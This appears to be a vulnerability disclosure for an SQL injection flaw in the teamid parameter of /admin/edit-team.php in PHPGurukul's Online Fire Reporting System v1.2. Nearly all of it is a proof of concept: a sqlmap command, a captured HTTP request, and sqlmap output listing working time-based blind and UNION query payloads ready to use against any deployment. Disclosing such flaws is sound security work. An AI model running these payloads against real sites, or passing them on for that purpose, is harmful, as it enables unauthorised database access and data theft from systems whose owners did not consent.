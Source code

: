 

# SQLi vulnerability in Online Fire Reporting System v1.2 of file /admin/edit-team.php

**vender**:

- Online Fire Reporting System

**SoftLink**:

- [Online Fire Reporting System Project in PHP- PHPGurukul](https://phpgurukul.com/online-fire-reporting-system-using-php-and-mysql/)

**Vulnerable File**

- /admin/edit-team.php

**Version**

- V1.2

### POC

```bash
sqlmap -r request.txt --level 5 --batch
```



```http
GET /admin/edit-team.php?teamid=1 HTTP/1.1
Host: www.firereport.top
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: PHPSESSID=vhqmp6o0p6p8lf7sscpqhrp6tf
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
```



```
---
Parameter: teamid (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: teamid=1' AND (SELECT 1771 FROM (SELECT(SLEEP(5)))hXbt)-- lWfl

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: teamid=1' UNION ALL SELECT NULL,CONCAT(0x7162626271,0x524a6c6b5067766f4779526a6a6d42504d6f62516143636f50465a6b644767494e49556768496a57,0x717a6a6a71),NULL,NULL,NULL,NULL-- -
---
```

